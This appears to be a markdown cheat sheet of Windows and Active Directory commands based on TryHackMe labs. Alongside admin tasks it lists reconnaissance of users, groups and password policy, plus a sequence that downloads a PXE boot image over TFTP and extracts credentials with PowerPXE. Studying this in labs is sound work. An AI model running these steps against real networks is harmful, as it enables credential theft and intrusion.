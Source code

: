 # Windows Commands

* [Active Directory](#active-directory)
* [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)
* [PowerShell](#powershell)


## Active Directory
Set password:
```
Set-ADAccountPassword [USERNAME] -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```
Another way:
```
Set-ADAccountPassword -Identity [USERNAME] -Server [DOMAIN] -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```
And Another way:
```
$Password = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force
```
```
Set-ADAccountPassword -Identity "[USERNAME]" -Reset -NewPassword $Password
```
  
Force password reset on next login:
```
Set-ADUser -ChangePasswordAtLogon $true -Identity [USERNAME] -Verbose
```
Force group policy update:
```
gpupdate /force
```
List all users in the AD domain:
```
net user /domain
```
List info on a specific user:
```
net user "[USERNAME]" /domain
```
List Groups in the AD domain:
```
net group /domain
```
List info on a specific group:
```
net group "[GROUP-NAME]" /domain
```
Enumerate password policy:
```
net accounts /domain
```
Enumerate AD Users:
```
Get-ADUser -Identity [USERNAME] -Server [DOMAIN] -Properties *
```
Example:
```
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
```
Pretty Output:
```
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
Another Way:
```
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```
Enumerate AD Groups:
```
Get-ADGroup -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```
Enumerate group membership:
```
Get-ADGroupMember -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```
Generic search for AD objects:
```
Get-ADObject [OPTIONS]
```
Example:
```
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```
Enumerate accounts that have a bad password count greater than 0:
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server [DOMAIN]
```
Get info about a specific domain:
```
Get-ADDomain -Server [DOMAIN]
```
* More info about the net command can be found here: https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems
* More info about cmdlets can be found here: https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

************************************
## Microsoft Deployment Toolkit

Dowload BDC file via TFTP:
```
tftp -i [TARGET-IP] GET "\Tmp\[FILE-PATH]" conf.bcd
```

Recover the locations of the PXE boot images from the BCD file:
```
powershell -executionpolicy bypass
```
```
Import-Module .\PowerPXE.ps1
```
```
$BCDFile = "conf.bcd"
```
```
Get-WimFile -bcdFile $BCDFile
```
Download Image:
```
tftp -i [TARGET-IP] GET "[PXE-BOOT-IMAGE-LOCATION]" pxeboot.wim
```
Recovering Credentials from a PXE Boot Image:
```
Get-FindCredentials -WimFile pxeboot.wim
```

* Credit: https://tryhackme.com/room/breachingad

************************************
## PowerShell

Find location of a file:
```
Get-ChildItem -Path C:\ -Include *[FILENAME]* -File -Recurse -ErrorAction SilentlyContinue
```
Example:
```
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue
```


************************************


## References
* https://tryhackme.com/room/breachingad
* https://tryhackme.com/room/adenumeration
* https://tryhackme.com/room/powershell

